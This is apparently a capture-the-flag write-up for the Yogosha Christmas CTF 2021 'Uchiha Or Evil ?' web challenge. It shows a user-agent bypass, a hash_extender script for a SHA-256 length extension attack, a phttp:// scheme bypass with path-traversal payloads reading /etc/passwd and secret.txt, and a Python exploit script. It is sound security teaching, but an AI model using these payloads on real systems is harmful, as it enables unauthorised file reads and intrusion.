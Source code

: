 # Uchiha Or Evil ?

> Yogosha Christmas CTF 2021

---

```
I heard something important is stored in /secret.txt here: http://3.141.159.106 ; Maybe the akatsuki will help the Uchiha clan ?
```
- From the previous challenge we got a url. Let's visit the page.
![](images/1.png)

- Nothing much on this page. I ran `nikto` & got there is a `robots.txt` file here. We can check the robots.txt page & there's some interesting info. So there is page.Let's go to `read.php`
![](images/2.png)
![](images/3.png)
- We got access denied. There is an interesting line in the robots.txt file which is `User-agent: Uchiha`. Let's change our useragent to `Uchiha`. You can use burp or a user agent changer extension. And we have something here.
![](images/4.png)
- Let's view the source. We have 2 things here.
    1. The form is sending post data with some hash concatenated a filename 
    2. Some dev notes(comments)

![](images/5.png)
- If we send the form we can see some odd thing happening here. Looks like the source code of the `read.php` page is loading. So form the dev comment we can see we have to read the source here in-order to continue from here.
![](images/6.png)
- Let's save the source in a file & read the code.
```php
<?php
if ($_SERVER['HTTP_USER_AGENT']!=="Uchiha"){
	echo "Access Denied. Only Uchiha clan can access this";
}
else{
?>

<?php
include "secret.php";
if(isset($_POST['string'])){
	$arr=explode("|",$_POST['string']) ;
	$filenames=$arr[1];
	$hash=$arr[0];
	if($hash===hash("sha256", $SECRET.$filenames ) && preg_match("/\//",$filenames)===0 ){
		foreach(explode(":",$filenames) as $filename){
			if(in_array($filename,["read.php","index.php","guinjutsu.php"])) {
				$jutsu=file_get_contents($filename);
				echo "Sharingan: ".$jutsu;
		}
		}
	}
	else{
		echo "Verification Failed! You didn't awaken your sharingan!";
	}

}

}
?>
```
- So this program is using the [explode](https://www.w3schools.com/php/func_string_explode.asp) function to split the array into 2 parts. Hash and the file.Then it's checking the hash with a concatenating the filename with a secret & from the array we can see there are 3 files. We cannot lord any other file from here. Then it's just dumping the contents of the files we supplied using the delimiter `:` to split filenames.
- I stuck here for 2 days trying to get the secret. I even tried to bruteforce the secret. But the organizers told me it's not brute forcible. There are some attacks on hash but the hash is `sha256` with is one of the safest (at the time being. Everything is secure untill someone breaks it ;). Cutting short the ans is [Length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack). These are the article and videos that helped me.
    - https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack
    - https://www.youtube.com/watch?v=sMla6_4Z-CQ
    - https://www.youtube.com/watch?v=6QQ4kgDWQ9w
- It's a complicated attack so I left it to the smart people and used this tool [hash_extender](https://github.com/iagox86/hash_extender)
- Here is the syntax `hash_extender --data data --secret len-of-sec --append append --signature hash --format fomrat`. We know the data `read.php`, signature `184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5`, format `sha256` we want the length of the secret. We can bruteforce it like this to generate signatures.
```bash
#!/bin/bash

for i in $(seq 100)
do
    hash_extender --data 'read.php' --secret $i --append ":index.php:guinjutsu.php" --signature 184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5 --format sha256 --out-data-format=html | grep "New" | cut -d ' ' -f3 | sed ':a;N;$!ba;s/\n/|/g' >> hashes
done
```
- This script will generate a file called `hashes` concatenating the hashes. Then we can use burpsuite or python to send the hash & check the result.
- The correct length is `42`. And we can see the result here we have the source of `guinjutsu.php`
![](images/7.png)
- So we have another source code let's see this one in more details
```php
<?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
    $par=parse_url($url);
    if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
        return True;

    }
    else{
        return False;
    }

}
if (isset($_POST['submit'])){
    if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
        $url=$_POST['api'].$_POST['endpoint'];
        if (check($url)){
            $opts = array(
  'http'=>array(
    'method'=>"GET",
    'follow_location'=>false,
    'header'=>"Accept-language: en\r\n" 
  )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;

        }
    }
}

?>
```
- In short the `check` function is checking for the a url which looks like this `http://uchiha.fuinjutsukeeper.tech:5000/`. If the check passes then it'll concat the endpoint with the url & give the output of whatever we're supplying. So how can we exploit this we have to load something which is on the `http://uchiha.fuinjutsukeeper.tech:5000/` & we can't load anything else or can we...
- It took me an another day (:-\` yah I'm slow). Php is weird we all know.. This part `strpos($par['scheme'],'http')!==false)` only checks for if the `http` part is supplied in the url or not; i.e. `http`, `https`, `phttp`, `fhttp`, `httpf` etc will return true. Nice we can do something nasty here.
- If we send the payload as it is we'll get something like this. Because we have to load files from the machine i.e. `LFI`. 
![](images/8.png)

- We can bypass this by using this paylaod
`submit=1&api=phttp://uchiha.fuinjutsukeeper.tech:5000/&endpoint=../../../../../../../../../../etc/passwd`
![](images/9.png)
- See we still got the error but we also got the contents of `/etc/passwd`. This is because this part.
```php
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;
```
- This is because `phttp` is not a valid scheme and thus `file_get_contents` thinks it's just part of the filepath while `parse_url` thinks its just a weird scheme unknown to it, but with a valid host and port!. You can read more in this [writeup](https://deltaclock.gitbook.io/ctf-writeups/securinets-ctf-quals-2021-mixed). Always count on smart people. 
- And with this payload `submit=1&api=phttp://uchiha.fuinjutsukeeper.tech:5000/&endpoint=../../../../../../../../../../secret.txt` we have the flag
![](images/10.png)

- Originally when I was solving this I don't know why burp was not showing any output here so I had the answer but wasted a lot of time. Then a friend of mine told me to use python. I was like why I haven't tried that lol (For the 100th time I'm saying count on smart people to avoid struggles like me) :-). Anyways here is the python script if anyone is interested.
```py
#!/usr/bin/python3
from requests import post
from re import findall

url = "http://3.141.159.106/"
headers = {"User-Agent": "Uchiha"}

data = {"submit":'1',"api":"shttp://uchiha.fuinjutsukeeper.tech:5000/","endpoint":"../../../../../../../../../../secret.txt"}

r = post(url + "/guinjutsu.php", headers=headers, data=data)

#print(r.text)

print(findall("Yogosha{.*", r.text)[0])
```
- Same thing we're sending the data as json format this time & everything else is same & I'm [regular expressions](https://en.wikipedia.org/wiki/Regular_expression) to extract the flag part only. 
- `Yogosha{.*` means first get `Yogosha{`(flag format) then `.` means any character & finally `*` means any number of times( 0 or > 0) & then we're indexing the first item of the array(list for python)
![](images/11.png)

#### Thank you for reading this write-up I hope it helped you. I was only able to solve only the first 2 challenges so that's all from me. I hope you learned something. I'll try to add links of other people whole solved the entire thing.

- Check out [smaury's](https://github.com/smaury/CTF-writeups/tree/main/2021/yogosha-christmas-challenge) write-up he has solved all of them even the bonus one. Smart guy alert ;-" do check his write-up it's awesome.